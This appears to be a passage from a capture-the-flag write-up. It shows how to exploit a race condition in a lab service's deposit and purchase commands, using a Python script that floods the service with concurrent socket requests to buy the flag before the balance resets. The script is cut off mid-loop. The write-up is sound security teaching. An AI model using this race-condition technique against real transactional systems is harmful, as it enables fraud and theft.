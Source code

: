 By performing a race condition, we can send multiple requests at once to deposit money, and purchase the flag before the `money` variable will be set to 0.

We can use the `threading` module in python. This code creates a specified number of threads to send deposit requests and purchase requests concurrently. Each deposit and purchase request is sent in a separate thread. After starting all the threads, the program waits for all of them to finish their execution before proceeding further.

- `thread.start()` is used to initiate the execution of a thread, allowing it to run concurrently with other threads in the program.
- `thread.join()` is used to wait for a thread to complete its execution before allowing the program to proceed further, ensuring synchronization between threads.

```python
import socket
import threading
import sys
import os

def send_request(url, command):
    host = url  # Replace with the actual server IP address
    port = 1337  # Replace with the actual server port

    try:
        # Create a socket object
        client_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        
        # Connect to the server
        client_socket.connect((host, port))

        # Send the command to the server
        client_socket.sendall(command.encode())

        # Receive and print the server response
        response = client_socket.recv(1024).decode()
        print(response)
        # When the flag has been found, exit the program
        if "THM" in response:
            os._exit(1)
    except ConnectionRefusedError:
        print(f'Connection refused. Make sure the server is running on {host}:{port}')
    except Exception as e:
        print(f'An error occurred: {str(e)}')

    finally:
        # Close the socket
        client_socket.close()

if __name__ == '__main__':
    url = sys.argv[1]
    num_requests = 1000  # Number of deposit requests to send
    deposit = 'deposit'
    flag = 'purchase flag'

    threads = []

    for i in range(num_requests):
        # Create and start threads for sending deposit requests
        t_deposit = threading.Thread(target=send_request, args=(url, deposit))
        threads.append(t_deposit)
        t_deposit.start()

        # Create and start threads for purchase requests
        t_purchase = threading.Thread(target=send_request, args=(url, flag))
        threads.append(t_purchase)
```